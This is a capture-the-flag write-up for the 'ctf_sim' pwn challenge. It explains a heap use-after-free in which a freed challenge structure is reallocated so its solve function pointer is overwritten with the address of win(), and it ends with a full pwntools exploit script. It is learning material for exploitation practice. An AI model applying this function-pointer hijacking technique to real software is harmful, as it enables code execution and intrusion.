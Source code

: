 # CTF_sim: 356

This was a uaf based challenge that I solved after the CTF. I'll now take you through it.

## Preliminary analysis:
```
ctf_sim: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2761071c48f75292676a4dabec103db701a4cee3, not stripped
```
```
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
gef➤  
```
As we can see, only NX bit is enabled, and it is a 64-bit dynamically linked binary. Let us move onto analyzing the binary. 

As we run the binary, we see 4 options - download challenge, solve challenge, submit writeup for challenge, and exit. 
```
CTF SIM
1. Download a Challenge
2. Solve a Challenge
3. Submit a writeup
4. Quit
> 
```
The following functions:
- `download challenge()` provides us a choice to choose one of the categories, (all the challenges are structures which contain a function), and saves it into a `downloaded` array, however the maximum index we can reach is 3, which means we can download atmost 3 challenges. 
- `solve challenge()` calls the fucntion `solve` of the structure, and then frees the allocated area of the structure. Libc version used is: `ldd (Ubuntu GLIBC 2.31-0ubuntu9.7) 2.31`. One thing to notice here is that, we can reuse the same chunk by requesting a chunk of the same size. After freeing it, we can reuse to point to win, thus when the function solve() is called again inside the structure, the pointer to win() will call the win() function instead. 
This cane be seen from the line: `downloaded[index] -> solve();` 
Hence making use of the UAF bug available.
- `submit writeup()` takes input from the reader. Here, we submit a writeup of 16 bytes, and provide the pointer to win() function as our payload. 
    
Thus our process involves:
- download a challenge, store it at any index.
- solve the challenge download, so as to free the allocated area of the strcture.
- submit writeup for the solved challenge, (providing a pointer to win() as the paylaod so that, when solve() function is called again, win() will be called instead.)
- solve the same downloaded and freed challenge again, so as to call win() this time.
    
## Exploit:
```
def download(cat, ind):
	p.recv()
	p.sendline('1')
	p.sendline(bytes(cat))
	p.sendline(bytes(ind))

def solve_chall(ind):
	p.recv()
	p.sendline('2')
	p.sendline(bytes(ind))
	
def writeup(length, content):
	p.recv()
	p.sendline('3')
	p.sendline(bytes(length))
	p.sendline(content)

from pwn import *

#p = remote("tamuctf.com", 443, ssl=True, sni="ctf-sim")
p = process('./ctf_sim')
gdb.attach(p)
win_ptr = 0x404088

download(1, 1)

solve_chall(1)

pay = p64(win_ptr)
writeup(16, pay)

solve_chall(1)	

p.interactive()
```


